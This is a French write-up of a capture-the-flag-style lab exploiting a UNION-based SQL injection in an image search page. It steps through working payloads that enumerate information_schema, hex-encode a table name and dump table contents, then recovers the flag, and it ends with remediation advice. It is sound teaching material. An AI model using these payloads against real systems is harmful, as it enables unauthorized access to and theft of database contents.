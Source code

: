 # Write up SQL Injection page searchimg

# Exploration

Durant notre exploration de l’application web, nous sommes tombés sur une fonctionnalité pour retrouver des informations sur les images à partir de leur ID:

![Capture d’écran 2024-05-02 à 20.09.50.png](images/Capture_decran_2024-05-02_a_20.09.50.png)

# Exploitation

Etant donné que cette fonctionnalité permet de retrouver des images, nous avons déduit qu’elle avait une interaction avec la base de donnée et était donc potentiellement vulnérable aux injections SQL. Pour s’en convaincre, nous avons utilisé ce payload:

**1 OR 1=1**

Cela nous à retourné toutes les images:

![Capture d’écran 2024-05-02 à 20.11.16.png](images/Capture_decran_2024-05-02_a_20.11.16.png)

A la différence de l’autre injection SQL présente sur l’application, les erreurs ne nous sont pas retournées, mais nous faisons toujours face à une injection UNION based. Cela confirme aussi qu’il y a deux champs de renvoyés, correspondant à **Title** et **URL**:

![Capture d’écran 2024-05-02 à 20.12.24.png](images/Capture_decran_2024-05-02_a_20.12.24.png)

On peut imaginer que la requête SQL de base ressemble à ca:

```php
#Le champ images? correspond au nom de tbale que nous devons trouver
SELECT ?,? FROM images? WHERE id=<notre_payload>;
```

En utilisant ce payload:

**1 UNION SELECT null,table_name FROM information_schema.tables**

Nous avons pu récupérer le nom de la table que nous cherchions:

![Capture d’écran 2024-05-02 à 20.16.08.png](images/Capture_decran_2024-05-02_a_20.16.08.png)

Nous avons ensuite récupéré le nom des colonnes en utilisant ce payload:

**1 UNION SELECT null,column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573**

Nous avons du encoder le nom de la table en hexa, il semble que cela ne fonctionnait pas en ajoutant directement le nom avec des quotes. Nous avons utilisé cette commande:

```php
~ echo -n 'list_images' | xxd
00000000: 6c69 7374 5f69 6d61 6765 73              list_images
```

Et nous avons obtenu:

![Capture d’écran 2024-05-02 à 20.37.17.png](images/Capture_decran_2024-05-02_a_20.37.17.png)

Nous avons ensuite pu récupérer le contenu de ces colonnes en les concaténants:

**1 UNION SELECT null,CONCAT(id,0x0a,url,0x0a,title,0x0a,comment) FROM list_images**

![Capture d’écran 2024-05-02 à 20.38.12.png](images/Capture_decran_2024-05-02_a_20.38.12.png)

En décodant la valeur md5, nous avons obtenu le mot **albatroz**.

Nous l’avons ensuite converti en sha256 pour avoir le flag:

```php
➜  ~ echo -n "albatroz" | openssl dgst -sha256
SHA2-256(stdin)= f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

# Remédiation

Les injections SQL sont des vulnérabilités encore très fréquentes sur les applications web si l’on se refère au [top 10 OWASP](https://owasp.org/Top10/fr/). En 2021, les injections (tout types confondus) se classent encore en 3ème place:

![Capture d’écran 2024-05-02 à 20.04.09.png](images/Capture_decran_2024-05-02_a_20.04.09.png)

Cela mène souvent à de terribles conséquences pour les sites vulnérables, incluant:

- Altération ou suppression des données présentes
- Élévation de privilèges
- Leak d’information
- Éxecution de commande à distance

Pour s’en protéger, voici plusieurs étapes à suivre:

- Utilisation d’ORM permettant d’utiliser des requêtes préparées
- Validation de l’input de l’utilisateur
- Ne jamais utiliser de la donnée contrôlable par l’utilisateur dans des requêtes SQL
- Suivre le principe du moindre privilège
- Chiffrer les données sensibles en base de donnée